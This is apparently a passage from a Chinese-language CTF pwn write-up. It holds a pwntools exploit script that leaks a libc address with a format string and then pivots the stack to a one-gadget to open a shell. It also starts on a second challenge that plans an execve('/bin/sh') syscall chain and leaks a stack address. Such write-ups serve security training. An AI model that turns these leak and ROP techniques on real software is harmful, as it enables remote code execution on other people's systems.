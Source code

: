 ```python

system=0x050d70
binsh=0x1d8678
rdi=0x2a3e5

# gdb.attach(link)
# pause()

printf=0x401227
payload=b'%7$p\n'
payload=payload.ljust(0x30,b'a')
payload+=p64(bss)+p64(printf)
link.recvuntil(b'magic')
link.send(payload)

link.recvline()
libc_addr=int(link.recvline()[:14],16)
print(hex(libc_addr))
libc_base=libc_addr-0x029d90
print(hex(libc_base))

# gdb.attach(link)
# pause()

# payload=p64(libc_base+rdi)+p64(libc_base+binsh)+p64(libc_base+system)
# payload=payload.ljust(0x30,b'a')
# payload+=p64(bss-0x38)+p64(leave_ret)
# payload=b'a'*0x30+p64(bss)+p64(libc_base+rdi)+p64(libc_base+binsh)+p64(libc_base+system)
payload=b'a'*0x30+p64(bss)+p64(libc_base+ogg[6])
link.recvuntil(b'magic')
link.send(payload)

link.interactive()
```

## 你真的会布栈吗？
非常简洁的程序，汇编一眼看完了...还没遇见过纯栈风水题...

给了 gadgets：

![](/images/b1795dbb2737c06deee255a31eb78d50.jpeg)

看见有`syscall` 指令，没有沙盒，考虑 `syscall` 执行`execve("/bin/sh",0,0)`来 getshell

题目在 banner 中间夹带了 rsp 的地址，可以用来存 `"/bin/sh"`

（刚拿到题目的时候注意到了，但是想着想着就忘了...）

![](/images/b6b68d1d47fb8e1ff6f9787caf622f7c.png)

```python
rsp_addr=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(rsp_addr))
```
